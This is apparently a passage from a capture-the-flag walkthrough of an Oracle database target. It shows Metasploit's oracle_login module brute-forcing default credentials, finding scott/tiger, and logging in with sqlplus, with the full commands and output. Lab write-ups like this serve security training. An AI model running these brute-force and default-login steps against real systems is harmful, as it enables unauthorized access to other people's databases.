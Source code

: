 We Got SID so, now let’s move to the next task and extract the user account information. From this point, you can connect to the listener and brute-force credentials.

For this I gonna use another module from Metasploit `admin/oracle/oracle_login`

```bash
msf5 auxiliary(admin/oracle/oracle_login) > options

Module options (auxiliary/admin/oracle/oracle_login):

   Name     Current Setting                                                              Required  Description
   ----     ---------------                                                              --------  -----------
   CSVFILE  /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv  no        The file that contains a list of default accounts.
   RHOST                                                                                 yes       The Oracle host.
   RPORT    1521                                                                         yes       The TNS port.
   SID      ORCL                                                                         yes       The sid to authenticate with.

msf5 auxiliary(admin/oracle/oracle_login) > set RHOST 10.10.10.82
RHOST => 10.10.10.82
msf5 auxiliary(admin/oracle/oracle_login) > set SID XE
SID => XE
msf5 auxiliary(admin/oracle/oracle_login) > run

[*] Starting brute force on 10.10.10.82:1521...
[+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE
[*] Auxiliary module execution completed
```

So we got a valid credentials `scott/tiger`

### Login with sqlplus

If you followed [this](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux) correctly, you can login now.

```bash
root@kali:/opt/oracle/instantclient_19_6# sqlplus scott/tiger@10.10.10.82/XE;

SQL*Plus: Release 19.0.0.0.0 - Production on Tue Jun 16 10:40:05 2020
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>
```
